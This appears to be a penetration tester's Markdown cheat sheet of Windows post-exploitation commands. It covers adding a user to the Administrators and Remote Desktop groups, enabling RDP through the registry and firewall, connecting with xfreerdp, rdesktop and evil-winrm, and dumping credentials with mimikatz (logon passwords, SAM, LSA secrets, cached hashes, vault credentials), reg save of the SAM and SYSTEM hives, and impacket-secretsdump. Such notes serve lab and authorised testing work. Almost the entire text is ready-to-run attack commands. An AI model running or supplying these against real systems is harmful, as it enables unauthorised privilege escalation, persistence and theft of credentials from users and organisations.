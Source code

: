 -> Add to local administrators group  
```
net localgroup Administrators <user> /add
```

-> Add to group of users who can access via RDP
```
net localgroup "Remote Management Users" <user> /add
net localgroup "Remote Desktop Users" <user> /add
```

-> Enable RDP
```
Set-ItemProperty -Path 'HKLM:\System\CurrentControlSet\Control\Terminal Server' -name "fDenyTSConnections" -value 0
Enable-NetFirewallRule -DisplayGroup "Remote Desktop"
```

-> move to another user  
```
runas /user:<hostname>\<user> cmd
```

-> xfreerdp via RDP with sharing in \\\tsclient\share\
```
xfreerdp /u:user /p:pass /v:ip +clipboard /dynamic-resolution /cert:ignore /drive:/usr/share/windows-resources,share
```

-> rdesktop via RDP  
```
rdesktop -u <user> -p <password> -d <domain> -f <ip>
```

-> evil-winrm
```
evil-winrm -i <ip> -u <user> -p <password>
```

### Cached Credential Storage and Retrieval
-> Dump the credentials of all connected users, including cached hashes
```
./mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" "exit"
```
-> Mix  
```
./mimikatz.exe "privilege::debug" "token::elevate" "sekurlsa::logonpasswords" "lsadump::lsa /inject" "lsadump::sam" "lsadump::cache" "sekurlsa::ekeys" "vault::cred /patch" "exit"
```
### Extracting hash
```
reg save hklm\sam sam
reg save hklm\system system
```
```
impacket-secretsdump -sam sam -system system LOCAL
```
